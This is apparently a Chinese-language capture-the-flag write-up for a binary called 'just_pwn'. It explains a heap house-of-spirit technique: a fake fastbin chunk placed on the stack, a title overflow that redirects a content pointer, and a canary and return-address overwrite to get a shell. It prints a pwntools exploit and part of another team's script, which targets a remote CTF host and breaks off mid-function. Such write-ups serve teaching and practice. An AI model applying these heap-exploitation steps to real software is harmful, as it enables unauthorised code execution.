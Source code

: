 |返回地址 |大小0x8|
|choice2 |welecome的变量,始终为0，大小0x8，chunk对齐用|
|len|welecome的变量,值为输入值，大小0x8|
在leavemessage中会将你的输入的信息记录到一个结构体中：
```
struct MESSAGE{
    char title[32]; //message的标题
    char *content; //malloc分配的地址
};
```
malloc分配的content的大小即为len的值，`read`至`buf`后，再`memcpy`至`content`，这里的`Enter the content of your message:`不会引发溢出。
但是之后的`Enter the title of your message:`可以导致输入的`title`溢出到`content`指针。
所以情况很明显了，在输入`content`的时候构造一个伪chunk，这个伪chunk理论大小是从栈中的`buf`到`len`之间的大小。len的值是在welcome中输入的0x20，满足下一个chunk大于2 * `SIZE_SZ`同时小于`av->system_mem`的要求（不懂的话可以参照[这篇文章](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/fastbin_attack/))。    
所以构造伪chunk流程是这样的：在`welcome`中输入`len`为0x20(合适即可)，然后`buf`中构造fast chunk：`p64(0) + p64(0x51)`，然后在`title`中溢出至`content`指针，使之指向buf(此时的buf已经构造好了)。    
接下来我们可以看到将构造的伪chunk加入fastbin中的机会，程序会问你`Would you like to change? y to confirm.`，选择`y`便会free掉`content`所指向的内存（这里是伪chunk），然后会再让你输入`content`。所以我们选择放弃pushing并且修改，程序会`free(content)`使`buf`到`len`的区域加入到fastbin中，然后malloc相同大小的内存，便会将之前free掉的内存再分配给content。这次根据程序的可输入的大小最大可以到0x80了（`if(length < 0 || length > 0x80)`）。我们便可以从buf覆盖canary，和返回地址（根据之前获得的buybuybuy的地址计算出getflag）的地址。然后就可以getshell了
具体代码如下：
```python
addr_getflag = addr_buybuybuy +0x122C - 0x176F
def setHOSandGetShell(ebp, canary, addr):
    just_pwn.sendline("1");
    just_pwn.sendlineafter("long is your message?\n","32")
    just_pwn.sendlineafter("content of your message:\n",p64(0) + p64(0x51));
    just_pwn.sendlineafter("title of your message:\n",32*'a'+p64(ebp-0x60+0xc0));
    just_pwn.sendlineafter("pushing? y to confirm.\n","n");
    just_pwn.sendlineafter("like to change? y to confirm.\n","y");
    just_pwn.sendlineafter("long is your message?\n","64");
    just_pwn.sendlineafter("content of your message:\n",'a'*3*8+p64(canary)+'a'*3*8+p64(addr));
just_pwn.interactive()
```
我的糟糕的wp在src文件夹下
以下是ROIS队超级短的WP：
(注：他们本地的just_pwn是patch过的，然后控制程序流的方式是第二关所讲的栈溢出)
```python
from pwn import *
context.log_level = 'debug'

p = process('./just_pwn')
q = remote('118.25.148.66','2333')

p.sendlineafter('3.Exit\n','1')
p.recvline()
k = p.recvline()

q.sendlineafter('3.Exit\n','1')
q.recvline()
l = q.recvline()

print k#得到9999的加密结果

p.close()

q.sendlineafter('3.Exit\n','2')
q.sendafter('Enter your secret code please:\n',k)

def leak(off):
```